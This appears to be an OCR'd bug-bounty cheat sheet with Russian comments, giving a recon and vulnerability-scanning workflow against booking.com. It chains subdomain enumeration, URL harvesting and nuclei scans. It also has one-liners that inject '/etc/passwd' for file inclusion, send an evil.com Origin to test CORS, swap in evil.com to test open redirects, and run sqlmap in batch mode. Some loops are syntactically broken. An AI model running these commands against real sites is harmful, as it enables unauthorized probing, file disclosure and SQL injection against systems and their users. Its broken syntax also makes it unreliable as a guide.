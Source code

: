 🐛💵
* echo booking.com > target.txt
# найдет субдомены tool [subfinder](https://github.com/projectdiscovery/subfinder)
* subfinder -dL target.txt -all --recursive -o subs.txt
# оставляет только живые  tool [httpx](https://github.com/projectdiscovery/httpx)
* cat subs.txt | httpx -o aliveSubs.txt
# вытащить все юрл с субдоменов tool [httpx](https://github.com/tomnomnom/waybackurls)
* cat subs.txt | waybackurls | tee urls.txt
# перверяет субдомен тейковер среди живых доменов
* nuclei -t /nuclei-templates/takovers/ -l aliveSubs.txt
# template [httpx](https://github.com/projectdiscovery/fuzzing-templates) 
* nuclei -l urls.txt -t /nuclei-templates/fuzzing-templates/
# проверяет на cve, exposure, vuln 
* nuclei -list aliveSubs.txt -t /nuclei-templates/vulnerabilities -t /nuclei-templates/cves -t /nuclei-templates/exposures
# из юрл извлекаем те юрл у которых есть параметры и js файлы 
* cat urls.txt | grep "=" | tee param.txt
* cat urls.txt | grep -iE '.js'| grep -ivE '.json' | sort -u | tee js.txt
# проверяет баги в js файлах 
* nuclei -t /nuclei-templates/http/exposures/ -l js.txt -o jsBugs.txt
# проверяет xss 
* cat urls.txt | uro | gf xss > xss.txt
* cat param.txt | kxss
* paramspider -d booking.com
# проверяет lfi 
* cat aliveSubs.txt | gau | uro | gf lfi | tee lfi.txt
* nuclei -l target.txt -tags lfi
* cat aliveSubs.txt | gau | uro | gf lfi | qsreplace  "/etc/passwd" | while read url; do curl -silent "$url" | grep "root:x:" && echo "$url is Vulnerable"; done;
* site=$(cat target.txt); gau $site | while read url; do target=$(curl -sIH Origin: https://evil.com -X GET $url) | if grep 'https://evil.com'; then [Potentional CORS Found] echo $url; else echo Nothing on $url; fi; done
# проверяет sqli 
* python3 sqlifinder.py -d booking.com
* sqlmap -m param.txt --batch --random-agent --level 1 | tee sqlmap.txt
# проверяет открытое перенаправление 
* cat urls.txt | grep -a -i =http | qsreplace 'evil.com' | while read host do;do curl -s -L $host -I| grep evil.com && echo $host 3[0;31mVulnerable\n ;done
# нуклей фазер проверет все уязвимости 
* nf -d booking.com

